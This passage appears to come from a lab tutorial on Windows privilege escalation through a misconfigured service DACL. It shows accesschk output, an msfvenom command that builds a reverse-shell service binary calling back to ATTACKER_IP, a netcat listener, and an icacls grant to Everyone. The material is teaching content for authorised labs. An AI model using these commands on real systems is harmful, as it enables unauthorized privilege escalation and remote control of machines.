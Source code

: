 ### Insecure Service Permissions

You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted.  Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure  the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.

To check for a service DACL from the command line, you can use [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:

- **Command Prompt**        

```shell-session
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
        
```

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Before changing the service, let's build another exe-service reverse  shell and start a listener for it on the attacker's machine:

- **Kali Linux**        

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
        
```

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the  desired location. Remember to grant permissions to Everyone to execute  your payload:

- **Command Prompt**        

```shell-session
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
        
```
